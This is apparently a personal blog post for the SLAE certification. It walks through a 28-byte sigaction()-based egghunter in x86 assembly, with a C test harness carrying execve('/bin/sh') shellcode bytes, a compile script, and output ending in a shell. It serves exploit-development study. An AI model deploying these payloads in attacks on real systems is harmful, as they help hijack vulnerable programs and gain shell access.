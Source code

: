 ```yaml
---
title:  "[SLAE 3] Egghunter Shellcode"
---
```


![Logo](/assets/images/tux-root.png)

## Creating an egghunter shellcode

For the third assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course I've studied different egghunter payloads. The starting reference paper for this is **skape**'s [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

I've implemented the 3 methods described in the paper:
* **access()** - Small and robust egghunter using _`access()`_ system call to check validity  of addresses. 
  * **Cons**: size is 39 bytes and the egg needs to be executable because after finding it, the execution jump before the egg and continues on.
* **access() revisited** - smaller (35 bytes), minor speed improvements, egg does not need to be executable. 
  * **Cons**: sets DF flag in case of failure (in very rare cases this could impact the running of the host application)
* **sigaction()** - even smaller (30 bytes), robust and very fast (validates 16 bytes at a time). 
  * **Cons**: some very rare odd failure situation described in detail in the paper.

For the purpose of this post, I'll detail my slightly modified version of the _`sigaction()`_ egghunter:
* **sigaction() reloaded** - the smallest version (__*only 28 bytes*__). I've replaced the double check for the egg with only one check. To avoid finding the egg in the comparison from the shellcode, I've applied a small transform before searching for it (_`inc eax`_ in this case, but could be any other 1 bytecode operation also - e.g. shifting bytes).

```asm
global _start   

section .text
_start:
    or cx,0xfff             ; page allignment
next_addr:
    inc ecx                 ; Pointer to region to be validated
    push byte +0x43         ; sigaction() syscall number
    pop eax                 ; Syscall number in eax
    int 0x80                ; Execut ethe syscall
    cmp al,0xf2             ; Compare with EFAULT
    jz short _start         ; Go to next page
    mov eax, <EGG>          ; The egg
    inc eax                 ; Egg modification. Avoid first find from above!
    mov edi,ecx             ; Prepare for comparison
    scasd                   ; Compare
    jnz short next_addr     ; Jump to next address
    jmp edi                 ; Jump to shellcode
```

To test it I've used the following C program simulating a real payload:
```
[  filler  ] [  egghunter  ] [  garbage  ] [  shellcode  ]
```

```c
#include <stdio.h>
#include <string.h>
 
#define     EGG     "<EGG>"
 
unsigned char sled[] = "Some misc bytes here";
unsigned char egghunter[] = 
        "<EGGHUNTER>";
unsigned char garbage[] = "Garbage, mangled bytes, whatever";
// execve(/bin/sh,..) shellcode here 
unsigned char shellcode[] = EGG
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
                "\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
 
// Function pointer
typedef int (*func_ptr)();
 
void main() {
    printf("Egghunter length: %d bytes\n", strlen(egghunter));
    printf("Shellcode Length:  %d bytes\n", strlen(shellcode));
 
    ((func_ptr) egghunter)();
}
```

The egg is configurable, and the compilation takes place from a wrapper script: 
```bash
$ ./compile.sh 
Usage: compile.sh {4 chars EGG mark}
 E.g.: compile.sh W00T
$ ./compile.sh BUBU
  [*] Using egg  BUBU
  [*] (Modified) Egg hex:, 0x55425542
  [+] Replace egg with, BUBU
  [+] Assembling egghunter
  [+] Linking egghunter
  [*] Egghunter:
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x42\x55\x42\x55\x40\x89\xcf\xaf\x75\xeb\xff\xe7
  [+] Compile shellcode tester
  [+] House cleaning
  [+] Done! run ./shellcode
$ ./shellcode
Egghunter length: 28 bytes
Shellcode Length:  29 bytes
$ whoami
liv
```

#

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
